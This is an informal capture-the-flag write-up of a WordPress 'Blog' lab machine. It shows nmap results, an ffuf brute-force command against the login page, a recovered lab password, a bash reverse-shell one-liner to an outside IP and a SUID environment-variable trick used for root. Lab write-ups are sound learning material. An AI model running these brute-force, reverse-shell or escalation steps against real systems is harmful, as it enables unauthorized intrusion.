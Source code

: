 # Blog.

This is a fucken web challenge that looks tougher than me. But what i'm i if i dont take on challenges that seem bigger than me.

- Just doing some looking around for now. I dont know exactly i am looking for yet. Maybe i am looking for everything and nothring at the same time.

- doing some directory fuzzing at the moment and getting some really cool routes on the blog. Hopefully i'll get something good out of it.

- My nmap scan is done and it has some pretty cooll stuff in there.
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2020-08-05T12:05:31+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-08-05 12:05:31
|_  start_date: N/A

```

- I checked out the smb ports and fell into a dip rabbit hole. :(. Moved to the port 80 and found a wordpress site.
I fuzzed for arbitrary routes on the blog. And found some routes that revealed the site is a wordpress one. And i got the idea to do a wpscan on the website.

- Catch is i have to login as some body by all means. So now i'm trying to get logged in as a user on the blog.
- wpscan came with some pretty cool vibes. found some users and some shit like that.
lemme prepare a ffuf fuzz for this motherfucker.
```
urlencoded data = log=kwheel&pwd=password&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1

ffuf -w /opt/wordlist/rockyou.txt -X POST -d "log=kwheel&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1" -H "Content-Type: application/x-www-form-urlencoded" -b "wordpress_test_cookie=WP+Cookie+check" -u http://blog.thm/wp-login.php -mc all -fc 200
```
the fucken dast fuzzzer couldnt do shit.. it run out of memory because the file was too big for it to use.
- I'm trying to crack the password with the rockyou.txt wordlist and its taking longer than i imagined.
```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie
```
found the password.

- Logged into the account and found nothing useful there, but the login were useful later on.
Wpscan hinted that the wordpress site has a vulnerability and yes it had one with a metasploit module, so not much work to exploit.

- got a shell on the machine and run linpeas.sh on the machine. Gooing throught it to see what i can find.
i need a reverse shell
```
bash -i >& /dev/tcp/10.8.29.246/9999 0>&1 -> it didnt work.

```
i went on to look throught the linpeas output and found an unusual file with suid bit set named checker. i executed the file and it told me i wasnt admin. It was funny so i ran ltrace and found it was calling `getenv` with `admin`.
if the admin variable is not set, checker will reply with `not admin` and then quit. LOl
- So i set the value of admin variable to admin, executed checker and boom it gave me root shell.


- I learnt tons from this room